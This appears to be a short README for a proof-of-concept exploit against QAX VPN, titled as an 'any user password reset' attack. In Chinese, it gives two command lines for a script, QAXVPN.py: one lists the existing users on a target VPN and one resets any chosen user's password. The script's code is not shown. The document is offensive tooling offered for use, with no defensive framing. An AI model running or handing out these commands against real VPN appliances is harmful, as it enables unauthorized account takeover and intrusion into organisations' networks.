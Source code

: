 # QAX_VPN Any User Password Reset PoC


   ### 使用方法
* ##### 遍历当前存在用户</br>
      python QAXVPN.py -t https://1.1.1.1 -lu
* ##### 修改任意用户密码</br>
      python QAXVPN.py -t https://1.1.1.1 -u user1 -cp
